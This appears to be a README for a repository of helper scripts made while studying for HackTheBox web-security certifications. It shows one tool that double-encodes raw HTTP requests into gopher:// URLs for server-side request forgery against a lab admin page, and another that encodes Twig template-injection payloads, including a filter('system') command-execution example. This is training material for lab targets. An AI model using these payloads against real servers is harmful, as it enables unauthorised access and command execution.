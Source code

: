 # CBBH-CWES-Artifact
Some python script I made during the course of preparing for CBBH/CWES

The `gopher-manual.py` is for correctly encode the request to gopher URL scheme to send arbitrary bytes to a TCP socket `(it will automatically encode the URL twice)`.

The `SSTI-payload-encode.py` is for correctly encode the `Twig` payload to make it acceptable to a TCP socket.

Usage:

### 1. Gopeher-manual.py

You may need to manually swap the request inside the `gopher-manual.py`

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopher-manual.py
gopher://someserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//someserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520dateserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```

### 2. SSTI-payload-encode.py

You can either `python3 SSTI-payload-encode.py "PAYLOAD"` or `python3 SSTI-payload-encode.py "PAYLOAD" --double` for double encoding.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 SSTI-payload-encode.py "{{ ['ls /'] | filter('system') }}" 
{{%2b['ls%2b/']%2b%7c%2bfilter('system')%2b}}
```
